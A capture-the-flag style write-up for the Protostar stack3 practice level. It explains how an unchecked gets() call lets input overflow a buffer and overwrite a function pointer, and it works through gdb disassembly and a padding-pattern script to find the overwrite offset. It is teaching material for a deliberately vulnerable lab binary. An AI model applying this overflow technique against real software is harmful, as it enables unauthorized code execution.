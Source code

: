 In this level, **\*fp()** is actually a function pointer that holds the address of a function. Our goal is to make it point to the **win** function to solve the level. But how can we do that? The answer is obvious, by using **gets**.

Since **gets** reads input directly into **buffer** without bounds checking, we can exploit this behavior to overflow the address stored in **fp**, redirecting execution to **win**.

Let's have a closer look at the program in `gdb`:

``` shell
user@protostar:/opt/protostar/bin$ gdb ./stack3
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
```

I will set a breakpoint at `0x08048475`, and inspect the stack. To make it simple for the debugging process, I will create a simple script to keep track of the address store in our function pointer **fp**.

Here is my script:

``` python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"

print padding
```

This script will help we notice what is the value currently stored in **fp**, which is **[esp+0x5c]** in the stack.

Before running the script, I will direct its output into a file and make this file as the input for my debugging process in `gdb`.

``` shell
user@protostar:~$ python script.py > /tmp/exp
user@protostar:~$ gdb /opt/protostar/bin/stack3
(gdb) break *0x08048475
Breakpoint 1 at 0x8048475: file stack3/stack3.c, line 22.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/24wx $esp
>info registers
>end
(gdb) r < /tmp/exp
Starting program: /opt/protostar/bin/stack3 < /tmp/exp
calling function pointer, jumping to 0x51515151
0xbffff6f0:     0x08048560      0x51515151      0xb7fff8f8      0xb7f0186e
```